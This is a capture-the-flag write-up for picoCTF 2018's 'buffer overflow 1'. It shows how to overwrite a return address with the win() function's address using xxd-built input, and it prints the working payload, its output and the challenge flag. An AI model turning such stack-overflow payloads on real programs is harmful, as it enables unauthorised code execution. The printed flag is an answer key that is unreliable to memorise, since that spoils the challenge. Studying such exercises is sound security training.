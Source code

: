 ## Writeup for 2018 picoCTF: buffer overflow 1
Binary Exploitation, 200 points

### Problem
> Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this [program](https://2018shell.picoctf.com/static/64108e53cad29c810b4f6b214d183a8a/vuln)? You can find it in /problems/buffer-overflow-1_2_86cbe4de3cdc8986063c379e61f669ba on the shell server. [Source](https://2018shell.picoctf.com/static/64108e53cad29c810b4f6b214d183a8a/vuln.c).

Our task is to overflow the buffer so that the return address of `vuln()` is changed to that of `win()`.  
Finding the location of `vuln()`'s return address involves some trial and error:  
```
echo "00000000: 6161 6161 6161 6161 6161 6161 6161 6161
      00000010: 6161 6161 6161 6161 6161 6161 6161 6161
      00000020: 1818 1818 1717 1717 1616 1616 1515 1515
      00000030: 1313 1313 1212 1212 1414 1414 1111 1111
      00000040: 1010 1010 0909 0909" | xxd -r | ./vuln
```
Output:  `Okay, time to return... Fingers Crossed... Jumping to 0x15151515`  
Observing the output it's clear that we should replace `1515 1515` with `win()`'s address, which we can find out is `0804 85cb` by `objdump -D vuln | grep win`  
Playing around it seems my machine is in Little Endian. So `cb85 0408` is the correct input, instead of `0804 85cb`.

### Solution:
```
objdump -D vuln | grep win;
echo "00000000: 6161 6161 6161 6161 6161 6161 6161 6161
      00000010: 6161 6161 6161 6161 6161 6161 6161 6161
      00000020: 1818 1818 1717 1717 1616 1616 cb85 0408
      00000030: 1313 1313 1212 1212 1414 1414 1111 1111
      00000040: 1010 1010 0909 0909" | xxd -r | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{addr3ss3s_ar3_3asy56a7b196}Segmentation fault (core dumped)
```
**Flag: picoCTF{addr3ss3s_ar3_3asy56a7b196}**
